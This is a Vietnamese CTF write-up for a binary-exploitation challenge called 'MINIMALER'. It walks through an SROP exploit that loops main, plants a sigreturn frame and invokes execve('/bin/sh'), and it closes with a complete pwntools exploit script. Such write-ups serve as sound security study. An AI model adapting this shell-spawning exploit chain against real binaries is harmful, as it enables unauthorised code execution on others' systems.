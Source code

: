 # MINIMALER
## Khai thác
### Lần nhập 1
- Bài này SROP và hơi lạ một xíu và cần debug kĩ
- Đầu tiên ta sẽ loop hàm main
```python
payload=b"A"*8
payload+=flat(
    0x404020+8,
    0x401142,
)
p.sendline(payload)
```
- `0x404020+8` đây là ow rbp, lí do ta sẽ ghi vào vùng có quyền `read-write` để khi loop hàm main 
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/4a8042db-3511-4811-9ea9-17ee76566d8c)

### Lần nhập 2
```python
frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=0x404000
frame.rsi=0
frame.rdx=0
frame.rip=exe.plt['syscall']
frame.rsp=exe.plt['syscall']
payload=flat(
    exe.plt['syscall'],0x404008,
    0x401142,
    bytes(frame)[0x10::]
)
input("ENTER TO SEND PAYLOAD 2")
p.send(payload)
```
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/779e786b-ba79-49a7-935a-d24d9569595a)
- Ta sẽ ghi frame vào `0x4040420`

### Lần nhập 3
```python
payload=flat(
    b"/bin/sh\x00",
    0x404a00+8,
    ret,
    b"\x3b"
)
input("enter to send syscall")
p.send(payload)
```
- Set up các thanh ghi (do là nó bị dời một xíu nên lần 2 bỏ 0x10 byte đầu)

## Lần nhập 4
```python
input('send 0xf bytes')
sh=b"/bin/sh\x00"
sh=sh.ljust(0xf,b"A")
p.send(sh)
```
## Script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('a_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+49

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)
base = 0x0000000000404500
GDB()
ret=0x000000000040101a
rw_section=0x404a00
payload=b"A"*8
payload+=flat(
    0x404020+8,
    0x401142,
)
p.sendline(payload)

frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=0x404000
frame.rsi=0
frame.rdx=0
frame.rip=exe.plt['syscall']
frame.rsp=exe.plt['syscall']
payload=flat(
    exe.plt['syscall'],0x404008,
    0x401142,
    bytes(frame)[0x10::]
)
input("ENTER TO SEND PAYLOAD 2")
p.send(payload)

payload=flat(
    b"/bin/sh\x00",    # 0x404000
    0x404a00+8,
    ret,
    b"\x3b"
)
input("enter to send syscall")
p.send(payload)
input('send 0xf bytes')
sh=b"/bin/sh\x00"
sh=sh.ljust(0xf,b"A")
p.send(sh)

p.interactive()
p.interactive()
```
